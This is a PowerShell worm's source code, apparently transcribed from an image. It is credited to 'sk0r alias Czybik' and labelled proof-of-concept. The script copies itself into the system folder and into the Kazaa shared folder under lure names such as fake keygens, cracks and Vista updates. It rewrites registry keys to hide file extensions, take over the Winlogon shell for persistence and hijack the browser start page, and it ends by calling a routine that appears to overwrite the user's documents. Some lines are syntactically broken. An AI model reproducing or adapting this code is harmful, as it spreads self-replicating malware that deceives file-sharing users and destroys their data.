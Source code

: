     $fso = New-Object -Com Scripting.FileSystemObject ;
    $wshs = New-Object -Com WScript.Shell ;
    $windir = $fso.GetSpecialFolder(0)
    $sysdir = $fso.GetSpecialFolder(1)

    $strInfoString_one = "This is a PowerShell Script worm. ";
    $strInfoString_two = "This worm is proof-of-concept ";
    $strInfoString_three = "the worm is ?006 by sk0r alias Czybik ";
    $strInfoString_four = "for informations write an email @ sk0r1337@gmx.de ";


    $KazaaDir = $wshs.RegRead('HKEY_CURRENT_USER\Software\Kazaa\LocalContent\DownloadDir'); 
    $AllMshDateinCurDir = get-childitem *.msh
    foreach ($PowerShellScript in $AllMshDateinCurDir)
    {
      if ($PowerShellScript.Length=13035)
      {
        $MySelfWorm = $PowerShellScript.Name;
      }
    }
    $gtFilesMsh = $fso.getfile($MySelfWorm);
    if (!$fso.fileexists($Sysdir.Path\WinCzySko.msh) 
    {
        $gtFilesMsh.Copy($Sysdir.Path\WinCzySko.msh); 
    }
    $gtFilesMsh.copy("$KazaaDir\Microsoft Windows Vista Cd-Key.txt.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Windows Vista Update.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Ad-aware SE Personal Edition 1.06r1.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Ashampoo Media Player 2.03 install.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Allround WinZIP Key Generator.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Talisman Desktop 2.99 Crack.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Nero Burning Rom 6.6.0.13 Crack.msh"); 
    $gtFilesMsh.copy("$KazaaDir\Kaspersky KeyGen working.msh");
    $gtFilesMsh.copy("$KazaaDir\Daemon Tools Install + Crack.rar.msh");
    $gtFilesMsh.copy("$KazaaDir\AVP - AntiVirus Key Generator.msh");


    $wshs.regwrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Hidden", 0, "REG_DWORD"); 
    $wshs.regwrite("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced\HideFileExt", 1, "REG_DWORD"); 
    $wshs.regwrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization", "United People of infected Ps","REG_SZ"); 
    $wshs.regwrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner", "sk0rCzybik","REG_SZ"); 
    $wshs.regwrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Window Title", "Infected with Ps Worm by sk0r alias Czybik","REG_SZ"); 
    $wshs.regwrite("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell", "explorer.exe  $sysdir.Path\WinCzySko.msh" ,"REG_SZ");
    $wshs.regwrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main\Start Page", "http://www.sk0r-scripts.tk")


    $PersonalDirectory = $wshs.regread("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Personal");
    UeberschreibeDateien($PersonalDirectory)
